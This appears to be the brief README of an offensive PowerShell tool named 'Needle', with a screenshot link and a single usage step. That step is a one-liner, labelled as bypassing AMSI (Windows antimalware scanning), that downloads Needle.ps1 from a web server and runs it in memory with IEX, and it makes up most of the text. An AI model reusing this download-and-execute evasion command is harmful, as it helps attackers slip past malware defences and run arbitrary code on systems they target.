 Greetings
----------

![alt text](<2024-06-26 08_25_55-Select Windows PowerShell.png>)

after inction in session run with : Needle

bypass AMSI with oneliner :  

IEX(New-Object Net.WebClient).downloadString('http://127.0.0.1:8080/Needle.ps1')

USE WITH CAUTION 
-----------
